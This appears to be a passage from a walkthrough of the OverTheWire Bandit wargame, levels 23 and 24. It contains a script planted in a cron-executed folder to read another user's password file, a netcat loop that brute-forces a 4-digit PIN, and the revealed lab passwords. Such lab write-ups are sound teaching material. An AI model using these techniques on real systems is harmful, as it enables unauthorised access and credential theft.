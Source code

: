 
Every file in /var/spool/bandit24 gets executed once and then gets deleted. That's our chance of getting the password for this user. We simply have to write a script that writes the password from location /etc/bandit_pass/bandit24 into one of our files. Afterwards, we just copy that script into the /var/spool/bandit24 folder and wait till it gets executed by the cronjob.

```
bandit23@bandit:/tmp/babbadeckl$ cat script.sh 
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/babbadeckl/password


bandit23@bandit:/tmp/babbadeckl$ touch password
bandit23@bandit:/tmp/babbadeckl$ chmod 777 password 


bandit23@bandit:/tmp/babbadeckl$ cp script.sh /var/spool/bandit24/


(wait 1 min)

bandit23@bandit:/tmp/babbadeckl$ cat password 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

----
## **Level 24**
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Commands you may need to solve this level:
```
No commands were specified
```

Connect to the server via ssh (password is the found password from the previous level):

```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

```bash
#!/bin/bash

password24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in {0000..9999}; do
	echo "$password24 $i"
done | nc localhost 30002 | grep -v "Wrong" | grep -v "pincode"
```

```
bandit24@bandit:/tmp/babbadeckl25$ ./bruteforce.sh 
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
